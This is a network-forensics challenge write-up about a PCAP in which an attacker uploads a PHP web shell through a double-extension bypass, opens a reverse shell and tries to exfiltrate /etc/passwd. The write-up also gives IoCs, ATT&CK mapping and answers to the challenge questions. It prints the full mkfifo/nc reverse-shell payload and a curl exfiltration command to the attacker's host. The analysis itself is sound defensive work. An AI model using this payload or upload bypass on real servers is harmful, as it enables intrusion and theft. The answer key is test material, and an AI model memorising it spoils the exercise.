# WebStrike – Web Shell Upload and Reverse Shell

# Scenario & Objective

A suspicious file was identified on a company web server, raising alarms within the intranet. The Development team flagged the anomaly, suspecting potential malicious activity. To address the issue, the network team captured critical network traffic and prepared a PCAP file for review. Your task is to analyze the provided PCAP file to uncover how the file appeared and determine the extent of any unauthorized activity.

- **Category**: Network Forensics
- **Tools**: Wireshark, whatismyipaddress.com

## Overview

The attacker `117[.]11[.]88[.]124` (Tianjin, China) uploaded a PHP reverse shell through `/reviews/upload.php` on the web server `24.49.63.79`. The first attempt, `image.php`, was rejected; renaming it to `image.jpg.php` got past the file-type check. The shell was stored in `/reviews/uploads/` and connected back to the attacker on TCP 8080 using `mkfifo` and `nc`. Through that shell he tried to send `/etc/passwd` to his machine with `curl -X POST` on port 443.

# Analysis

## Phase 1: Initial Reconnaissance & Access

### Step 1 – Geographic origin of the attacker

    
  <em>Image 1</em>

- In this case, there are two IP addresses in communication. Checking the HTTP traffic, it shows that every request (such as Get /,…) is directly to 24.49.63.79, which is the web server. On the other hand, these requests originate from 117[.]11[.]88[.]124, meaning this is attack one.

    
  <em>Image 2</em>

- Checking the IP with whatismyipaddress.com, the result reveals that the IP addresses is located in Tianjin, China.

### Step 2 – Attacker User-Agent

- A User-Agent is a line of text that a client (like a web browser or mobile app) sends to a web server every time it requests a page or file. It identifies the client's software, operating system, and version so the server can provide compatible content. Understanding User-Agents in cybersecurity involves analyzing this string of data, as it is heavily used by both defenders and attackers.

    
  <em>Image 3</em>

- Following the HTTP stream between attacker and server in Wireshark, the captured HTTP GET request reveals the attacker’s User-Agent as Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0.

## Phase 2: Web shell upload 

### Step 3 – Web-shell upload

- A web shell is a malicious script or program designed to give a cyberattacker remote control over a compromised web server. Acting as a backdoor, it allows the attacker to interact with the underlying operating system directly through a standard web browser.

- After applying Wireshark filter ip.src == 117[.]11[.]88[.]124 and http.request.method==“POST”, there are two POST request.

    
  <em>Image 4</em>

    
  <em>Image 5</em>

- The first POST request, attacker upload “image.php” file via /reviews/upload.php endpoint. The content of the uploaded file is visible in the HTTP stream, showing a PHP code snippet designed to establish a reverse shell using the system function.

    
  <em>Image 6</em>

- This request was rejected by the server with “invalid file format” message.

    
  <em>Image 7</em>

- Because of the upload failure, in the second POST request, the attacker changes the file name in to “image.jpg.php” and upload via the same endpoint. This time, the upload is successful and get the “file upload successfully” response by the server.

### Step 4 – Upload directory

    
  <em>Image 8</em>

- Following the HTTP stream, after receiving POST request, the server will response GET request to store the uploaded file. Appling Wireshark filter http.request.method==“GET” and http.request.uri contains “upload”, it shows the capture HTTP stream above. It redirects the client to the /reviews/uploads/ directory.

## Phase 3: Reverse Shell Activation

### Step 5 – Reverse-shell port

- A reverse shell is a type of [cyber attack](https://www.checkpoint.com/cyber-hub/cyber-security/what-is-cyber-attack/) in which a victim is duped into having their remote machine establish a connection to the attacker’s computer.

    
  <em>Image 9</em>

- Examining the uploaded web shell file content, it reveals the command : \<?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f\|/bin/sh -i 2\>&1\|nc 117[.]11[.]88[.]124 8080 \>/tmp/f"); ?\>

- The nc (netcat) command within this code explicitly specifies the attacker's IP address 117[.]11[.]88[.]124 and the port number 8080. Therefore, the reverse shell attempted to establish a connection back to the attacker's machine on port 8080.

## Phase 4: Data Exfiltration

### Step 6 – Exfiltrated file

- To recognize the file was the attacker attempting to exfiltrate, we need to check the communication between server and port 8080.

    
  <em>Image 10</em>

- Applying Wireshark filter tcp.port == 8080 and ip.src == 24.49.63.79, it shows the communication between server and port 8080.

    
  <em>Image 11</em>

- Following the TCP stream, the result reveals that attacker uses a curl command to exfiltrate the password. The specific command, “curl -X POST -d /etc/passwd http://117[.]11[.]88[.]124:443/”, shows that the attacker tent to transfer the /etc/passwd file to their machine over HTTP on port 443.

## Indicators of Compromise

| Type | Value |
|---|---|
| Attacker IP | `117[.]11[.]88[.]124` (Tianjin, China) |
| User-Agent | `Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0` |
| Web shell | `image.jpg.php` in `/reviews/uploads/` |
| Reverse shell | `nc 117[.]11[.]88[.]124 8080` (via `mkfifo /tmp/f`) |
| Exfiltration | `curl -X POST -d /etc/passwd hxxp[://]117[.]11[.]88[.]124:443/` |

## MITRE ATT&CK mapping (analyst mapping)

| Technique | Evidence |
|---|---|
| T1190 – Exploit Public-Facing Application | Unrestricted file upload on `/reviews/upload.php` |
| T1036.007 – Masquerading: Double File Extension | `image.jpg.php` |
| T1505.003 – Server Software Component: Web Shell | PHP shell in the uploads directory |
| T1059.004 – Unix Shell | `/bin/sh -i` reverse shell |
| T1005 / T1048 – Data from Local System / Exfiltration Over Alternative Protocol | `curl` POST of `/etc/passwd` |

# Answer the Questions

**Q1: Identifying the geographical origin of the attack facilitates the implementation of geo-blocking measures and the analysis of threat intelligence. From which city did the attack originate?**

It is Tianjin, China.

**Q2: Knowing the attacker's User-Agent assists in creating robust filtering rules. What's the attacker's Full User-Agent?**

It is `Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0`.

**Q3: We need to determine if any vulnerabilities were exploited. What is the name of the malicious web shell that was successfully uploaded?**

It is `image.jpg.php` (the first attempt, `image.php`, was rejected).

**Q4: Identifying the directory where uploaded files are stored is crucial for locating the vulnerable page and removing any malicious files. Which directory is used by the website to store the uploaded files?**

It is `/reviews/uploads/`.

**Q5: Which port, opened on the attacker's machine, was targeted by the malicious web shell for establishing unauthorized outbound communication?**

It is `8080`.

**Q6: Recognizing the significance of compromised data helps prioritize incident response actions. Which file was the attacker attempting to exfiltrate?**

It is `/etc/passwd`.
